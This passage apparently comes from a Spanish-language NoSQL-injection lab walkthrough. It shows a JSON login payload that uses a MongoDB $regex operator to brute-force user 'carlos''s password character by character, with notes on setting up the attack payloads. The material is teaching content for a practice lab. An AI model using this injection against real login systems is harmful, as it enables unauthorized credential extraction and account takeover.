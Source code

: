```
{
  "username": "carlos",
  "password": { "$regex": "^.{0}a.*" }
}
```

![](/assets/img/NoSQLI-Lab-4/image_61.png)

Como `primer payload` vamos a `elegir` un `número alto`, debido a que `con $regex no podemos saber la longitud de la contraseña`

![](/assets/img/NoSQLI-Lab-4/image_62.png)

Como `segundo payload` vamos a `seleccionar el mismo que hemos seleccionado la primera vez`
